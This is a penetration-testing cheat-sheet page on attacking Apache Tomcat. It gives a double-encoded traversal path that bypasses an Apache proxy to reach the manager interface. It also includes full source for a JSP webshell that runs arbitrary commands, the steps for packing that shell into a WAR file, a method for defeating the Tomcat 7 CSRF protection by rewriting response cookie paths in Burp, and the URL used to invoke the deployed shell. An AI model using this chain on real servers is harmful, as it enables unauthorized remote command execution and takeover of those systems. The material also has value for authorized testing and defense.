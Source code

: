 # Tomcat

## Tomcat

JSP or servlet

### Bypass apache proxy

`/examples/jsp/%252e%252e/%252e%252e/manager/html`

### JSP webshell

```
<FORM METHOD=GET ACTION='test.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

#### Create a war archive

```csharp
mkdir test
mv test.jsp test
cd test

/usr/lib/jvm/java-14-openjdk/bin/./jar -cvf ../test.war *

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=lcd
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)
                                                            
```

### Bypass CSRF&#x20;

### Tomcat7 is using a CSRF protection in upload field

Upload the file and click on deploy and capture the request .

#### Modify the path&#x20;

`jsp/%252e%252e/manager/htm/`

![](<../../.gitbook/assets/image (229).png>)

#### Capture the response in burp

![](<../../.gitbook/assets/image (159).png>)

####

#### Modify the CSRF protection path ( / instead of /manager) in the server response

* refresh the manager page to get the token



![](<../../.gitbook/assets/image (248).png>)

* Modify the response

![](<../../.gitbook/assets/image (225).png>)

```
Set-Cookie: JSESSIONID=62FC9D661A6E815FCC2FE73B5B8DA686; Path=/; HttpOnly
```

* Modify the DOM path for Deploy

![](<../../.gitbook/assets/image (46).png>)

### Access the webshell

```
examples//%252e%252e/test/index.jsp?cmd=id
```

![](<../../.gitbook/assets/image (278) (1).png>)
